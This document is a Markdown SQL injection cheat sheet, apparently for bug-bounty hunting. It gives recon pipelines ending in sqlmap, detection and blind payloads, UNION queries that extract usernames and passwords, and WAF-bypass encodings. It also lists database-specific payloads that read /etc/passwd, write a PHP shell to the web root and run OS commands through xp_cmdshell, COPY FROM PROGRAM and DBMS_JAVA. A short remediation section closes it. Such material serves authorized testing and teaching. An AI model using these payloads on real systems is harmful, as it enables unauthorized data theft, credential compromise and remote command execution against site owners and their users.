

# SQL Injection

## Shortcut

- Map any of the application endpoints that takes in user input
- Insert test payload into these locations to discover whether they're vulnerable to SQL injections. if the input isn't vulnerable to classic SQL injections, try inferential techniques instead.
- Use different SQL injection queries to extract information from the database.
- Escalate the issue, try to expand your foothold.

## Mechanisms

SQL Injection (SQLi) is a code injection technique that exploits vulnerabilities in applications that dynamically construct SQL queries using user-supplied input. When successful, attackers can:

- Bypass authentication
- Access sensitive data
- Modify database data
- Execute administrative operations
- Potentially achieve remote code execution

SQLi occurs when applications fail to properly validate, sanitize, or parameterize user input before incorporating it into SQL queries. The vulnerability exists in various forms:

### Types of SQL Injection

- **Error-based**: Extract data by forcing the database to generate error messages containing sensitive information
- **Union-based**: Leverage the UNION operator to combine results from the original query with those from an injected query
- **Boolean-based blind**: Infer information by observing whether query results differ based on injected Boolean conditions
- **Time-based blind**: Deduce information by observing timing differences in responses when conditional time-delay functions are injected
- **Out-of-band**: Extract data through alternative communication channels (DNS, HTTP requests)
- **Second-order**: Occurs when user input is stored and later used unsafely in SQL queries
- **Stored procedures**: Targeting vulnerable database stored procedures
- **JSON‑based**: Abuse JSON operators/functions (->, ->>, JSON_EXTRACT, JSON_TABLE) to inject conditions or extract data where traditional syntax is filtered



### Database Targets

SQLi affects virtually all major database systems:

- MySQL/MariaDB
- Microsoft SQL Server
- PostgreSQL
- Oracle
- SQLite
- IBM DB2
- NoSQL databases (MongoDB, Cassandra, etc.)

## Hunt

### Recon Workflow

1. Using Burpsuite:

   ```
   - Capture request in Burpsuite
   - Send to active scanner
   - Review SQL vulnerabilities detected
   - Manually verify findings
   - Use SQLMAP for deeper exploitation
   ```

2. Using automation tools:

   ```
   - sublist3r -d target | tee -a domains
   - cat domains | httpx | tee -a alive
   - cat alive | waybackurls | tee -a urls
   - gf sqli urls >> sqli
   - sqlmap -m sqli --dbs --batch
   ```

3. Hidden parameter discovery:
   ```
   - Gather URLs using hakrawler/waybackurls/gau
   - Use Arjun to scan for hidden parameters
   - Test discovered parameters for SQL injection
   ```

### Identification Techniques

#### Parameter Testing

- Test all input vectors: URL parameters, form fields, cookies, HTTP headers
- Insert basic SQL syntax characters to provoke errors:
  ```
  ' " ; -- /* */ # ) ( + ,
  ```
- Test single and double quote placement in different contexts:
  ```
  ' OR '1'='1
  " OR "1"="1
  ```
- Use SQLi polyglots (work in multiple contexts):
  ```
  SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
  ```

#### Error-Based Detection

- Look for database error messages that reveal:
  - SQL syntax errors
  - Database type and version
  - Table/column names
  - Query structure
- Common error-triggering payloads:
  ```
  '
  ''
  `
  "
  ""
  ,
  %
  \
  ```

#### Blind Detection

- Boolean-based tests (observe differences in responses):
  ```
  ' OR 1=1 --
  ' OR 1=2 --
  ' AND 1=1 --
  ' AND 1=2 --
  ```
- Time-based tests (observe response timing):
  ```
  MySQL: ' OR SLEEP(5) --
  PostgreSQL: ' OR pg_sleep(5) --
  MSSQL: ' WAITFOR DELAY '0:0:5' --
  Oracle: '; BEGIN DBMS_LOCK.SLEEP(5); END; --
  ```

### Advanced Testing Approaches

#### Mapping Database Structure

1. Determine database type:

   ```
   ' UNION SELECT @@version -- (MySQL/MSSQL)
   ' UNION SELECT version() -- (PostgreSQL)
   ' UNION SELECT banner FROM v$version -- (Oracle)
   ```

2. Enumerate tables:

   ```
   # MySQL/MSSQL
   ' UNION SELECT table_name,1 FROM information_schema.tables --

   # PostgreSQL
   ' UNION SELECT table_name,1 FROM information_schema.tables --

   # Oracle
   ' UNION SELECT table_name,1 FROM all_tables --
   ```

3. Enumerate columns:

   ```
   # MySQL/MSSQL/PostgreSQL
   ' UNION SELECT column_name,1 FROM information_schema.columns WHERE table_name='users' --

   # Oracle
   ' UNION SELECT column_name,1 FROM all_tab_columns WHERE table_name='USERS' --
   ```

## Bypass Techniques

### WAF Bypass

- Case variation: `SeLeCt`, `UnIoN`
- Comment injection: `UN/**/ION SE/**/LECT`
- Alternate encodings:
  - URL encoding: `UNION` → `%55%4E%49%4F%4E`
  - Hex encoding: `SELECT` → `0x53454C454354`
  - Unicode encoding
- Whitespace manipulation: `UNION/**/SELECT`
- Numeric representations:
  - `1` → `1-0`, `1+0`, `CHAR(49)`
- String concatenation:
  - MySQL: `CONCAT('a','b')`
  - Oracle: `'a'||'b'`
  - MSSQL: `'a'+'b'`
- Null byte injection:
  ```
  %00' UNION SELECT password FROM Users WHERE username='xyz'--
  ```
- Double encoding:
  ```
  First pass: / → %2f
  Second pass: %2f → %252f
  ```
- Using SQLMAP tamper scripts:
  - Use Atlas tool for suggesting tamper scripts
  - Try multiple tamper scripts in combination
  - Customize tamper scripts for specific WAFs
- **JSON operator wrapper**: Prefix payload with dummy JSON (`/**/{"a":1}`) so that WAFs parse request as JSON and miss the subsequent SQL keywords

## Vulnerabilities

### Common SQL Injection Points

#### Direct Query Manipulation

- **Login Bypass**:
  ```
  username=' OR 1=1 --
  ```
- **Data Extraction**:
  ```
  ' UNION SELECT username,password FROM users --
  ```
- **Blind Data Extraction**:
  ```
  ' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a
  ```

#### Indirect Query Vulnerabilities

- **Second-Order Injection**: Input is sanitized during initial storage but used unsafely in subsequent queries
- **ORM-Layer Injection**: Vulnerabilities in the Object-Relational Mapping layer
- **Dynamic Query Construction**: Queries built by concatenating strings with user input
- **Insufficient Input Sanitization**: Improper filtering of special characters
- **Query Format String Vulnerabilities**: Using string formatting functions to construct queries
- **GraphQL Injection**: Resolver strings constructed unsafely from GraphQL arguments leading to backend SQL execution

### Database-Specific Vulnerabilities

#### MySQL/MariaDB

- **Information Leakage**:
  ```
  ' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' --
  ```
- **File Access**:
  ```
  ' UNION SELECT LOAD_FILE('/etc/passwd') --
  ```
- **File Writing**:
  ```
  ' UNION SELECT 'shell code' INTO OUTFILE '/var/www/html/shell.php' --
  ```

#### MSSQL

- **Command Execution**:
  ```
  '; EXEC xp_cmdshell 'net user' --
  ```
- **Registry Access**:
  ```
  '; EXEC xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion','ProductName' --
  ```
- **Linked Servers Access**:
  ```
  '; EXEC ('SELECT * FROM OPENROWSET(''SQLOLEDB'',''Server=linked_server;Trusted_Connection=yes'',''SELECT 1'')') --
  ```

#### PostgreSQL

- **File Access**:
  ```
  ' UNION SELECT pg_read_file('/etc/passwd',0,1000) --
  ```
- **Command Execution**:
  ```
  '; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id'; SELECT * FROM cmd_exec; --
  ```

#### Oracle

- **Privilege Escalation**:
  ```
  ' UNION SELECT * FROM SYS.USER_ROLE_PRIVS --
  ```
- **PL/SQL Execution**:
  ```
  ' BEGIN DBMS_JAVA.RUNJAVA('java.lang.Runtime.getRuntime().exec(''cmd.exe /c dir'')'); END; --
  ```

### NoSQL Injection

- **MongoDB Operators**:
  ```
  username[$ne]=admin&password[$ne]=
  username[$regex]=^adm&password[$regex]=^pass
  ```
- **Operator Injection**:
  ```
  {"$where": "sleep(5000)"}
  {"username": {"$in": ["admin"]}}
  ```

### Graph Databases (Neo4j/Cypher)

- **Cypher Injection Example**
  ```
  MATCH (u:User) WHERE u.name = 'admin' RETURN u
  ```
  can be abused with `admin' OR 1=1 //--` to bypass conditions.
- **CVE‑2024‑34517**: Older Neo4j 5.x allowed privilege escalation via IMMUTABLE procedures; ensure your target is ≥ 5.18 or 4.4.26.

## Methodologies

### Tools

#### Automated SQLi Detection & Exploitation

- **SQLmap 1.7**: Now detects JSON‑based and GraphQL SQLi automatically, plus smarter tamper chaining
- **GraphQLmap**: CLI tool for fuzzing and exploiting GraphQL resolver injections
- **NoSQLMap**: NoSQL database testing
- **Burp Suite Professional**: SQL injection scanner

#### Manual Testing Tools

- **Burp Suite**: Request manipulation and testing
- **OWASP ZAP**: Traffic interception and testing
- **FuzzDB/SecLists**: Attack payload collections
- **Havij**: Automated SQL injection tool with GUI

### Testing Methodology

#### Reconnaissance Phase

1. **Identify Entry Points**:

   - Map all user input parameters
   - Check HTTP POST/GET parameters
   - Examine cookies and HTTP headers
   - Review hidden form fields
   - Analyze API endpoints

2. **Determine Database Type**:
   - Observe error messages
   - Test database-specific syntax
   - Check HTTP headers and response patterns

#### Exploitation Phase

1. **Initial Testing**:

   ```
   # Test for errors
   parameter=test'
   parameter=test"
   parameter=test`

   # Boolean tests
   parameter=test' OR '1'='1
   parameter=test' AND '1'='2

   # UNION tests
   parameter=test' UNION SELECT 1-- -
   parameter=test' UNION SELECT 1,2-- -
   parameter=test' UNION SELECT 1,2,3-- -
   ```

2. **UNION Attack Technique**:

   ```
   # Find the number of columns
   ' UNION SELECT NULL-- -
   ' UNION SELECT NULL,NULL-- -
   ' UNION SELECT NULL,NULL,NULL-- -

   # Identify string columns
   ' UNION SELECT 'a',NULL,NULL-- -
   ' UNION SELECT NULL,'a',NULL-- -
   ' UNION SELECT NULL,NULL,'a'-- -

   # Extract data
   ' UNION SELECT username,password,NULL FROM users-- -
   ```

3. **Blind SQLi Exploitation**:

   ```
   # Boolean-based
   ' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 0,1)='a'-- -

   # Time-based
   ' AND (SELECT CASE WHEN (username='admin') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)-- -
   ```

4. **Database Enumeration**:

   - Determine database version
   - Extract table names
   - Extract column names
   - Extract data

5. **Privilege Escalation**:
   - Identify database user permissions
   - Access sensitive tables
   - Attempt file system access
   - Try command execution

### Cheatsheets by Database

#### MySQL

```
# Version
SELECT @@version

# Comments
-- Comment
# Comment
/*Comment*/

# String Concatenation
CONCAT('a','b')

# Substring
SUBSTRING('abc',1,1)

# Conditional
IF(1=1,'true','false')

# Time Delay
SLEEP(5)

# Data Sources
information_schema.tables
information_schema.columns
```

#### MSSQL

```
# Version
SELECT @@version

# Comments
-- Comment
/*Comment*/

# String Concatenation
'a'+'b'

# Substring
SUBSTRING('abc',1,1)

# Conditional
CASE WHEN 1=1 THEN 'true' ELSE 'false' END

# Time Delay
WAITFOR DELAY '0:0:5'

# Data Sources
information_schema.tables
information_schema.columns
sys.tables
sys.columns
```

#### Oracle

```
# Version
SELECT banner FROM v$version

# Comments
-- Comment
/*Comment*/

# String Concatenation
'a'||'b'

# Substring
SUBSTR('abc',1,1)

# Conditional
CASE WHEN 1=1 THEN 'true' ELSE 'false' END

# Time Delay
DBMS_PIPE.RECEIVE_MESSAGE('RDS',5)

# Data Sources
all_tables
all_tab_columns
```

#### PostgreSQL

```
# Version
SELECT version()

# Comments
-- Comment
/*Comment*/

# String Concatenation
'a'||'b'

# Substring
SUBSTRING('abc',1,1)

# Conditional
CASE WHEN 1=1 THEN 'true' ELSE 'false' END

# Time Delay
pg_sleep(5)

# Data Sources
information_schema.tables
information_schema.columns
```

## Remediation Recommendations

- **Prepared Statements/Parameterized Queries**:

  ```java
  // Unsafe
  String query = "SELECT * FROM users WHERE username = '" + username + "'";

  // Safe (Java PreparedStatement)
  PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE username = ?");
  stmt.setString(1, username);
  ```

- **PHP PDO note:** When using PDO you must disable emulated prepares,Otherwise parameters are substituted client‑side and JSON operators can still be injectable.

  ```php
  $pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
  ```

- **ORM Frameworks**: Use secure ORM frameworks with proper parameter binding
- **Input Validation**: Server-side validation with strong type checking
- **Stored Procedures**: Use properly coded stored procedures
- **Least Privilege**: Restrict database account permissions
- **WAF Implementation**: Deploy a web application firewall
- **Error Handling**: Prevent detailed error messages from being displayed to users
- **Database Activity Monitoring**: Track and alert on suspicious database activity
